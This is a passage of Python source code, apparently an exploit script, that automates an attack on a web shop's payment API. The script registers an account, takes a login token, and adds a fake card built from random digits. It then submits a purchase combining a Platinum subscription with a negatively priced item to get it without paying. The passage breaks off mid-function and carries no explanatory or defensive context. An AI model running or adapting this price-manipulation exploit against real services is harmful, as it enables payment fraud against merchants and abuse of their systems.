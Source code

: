 ```python
        "password": f"{password}",
    }

    requests.post(
        url=f"{TargetURL}{registerEndpoint}",
        data=json.dumps(postParametersRegister),
        headers=headers,
    )

def Login(email, password):
    # Login to attain JWT
    loginEndpoint = "/api/users/login"
    postParametersLogin = {"email": f"{email}", "password": f"{password}"}

    JWT = (
        (
            requests.post(
                url=f"{TargetURL}{loginEndpoint}",
                data=json.dumps(postParametersLogin),
                headers=headers,
            )
        )
        .json()
        .get("token")
    )
    return JWT

def AddPaymentCardAndGetID(JWT):
    # Add Payment Card to Current User
    addPaymentCardEndpoint = "/api/payment/add"
    postParametersAddPaymentCard = {
        "name": "PayPal",
        "number": f"{''.join(random.choices(string.digits, k= 16))}",
        "expiryMonth": "12",
        "expiryYear": "9999",
        "cvc": f"{''.join(random.choices(string.digits, k=3))}",
    }

    headers.update({"Authorization": f"Bearer {JWT}"})
    requests.post(
        url=f"{TargetURL}{addPaymentCardEndpoint}",
        data=json.dumps(postParametersAddPaymentCard),
        headers=headers,
    )

    getPaymentCardDetailsEndpoint = "/api/payment/cards"

    cardId = (
        requests.get(url=f"{TargetURL}{getPaymentCardDetailsEndpoint}", headers=headers)
    ).json()["cards"][0]["id"]

    return cardId

def BuyPlatinumSubscription(CardId):
    # Buy Platinum Subscription
    processPurchaesEndpoint = "/api/payment/charge/"

    postParametersBuyPlatinum = {
        "cardId": f"{CardId}",
        "items": [
            {"name": "Platinum", "category": "subscription", "price": 68, "amount": 1},
            {"name": "10000", "category": "cubes", "price": -100, "amount": 1},
        ],
```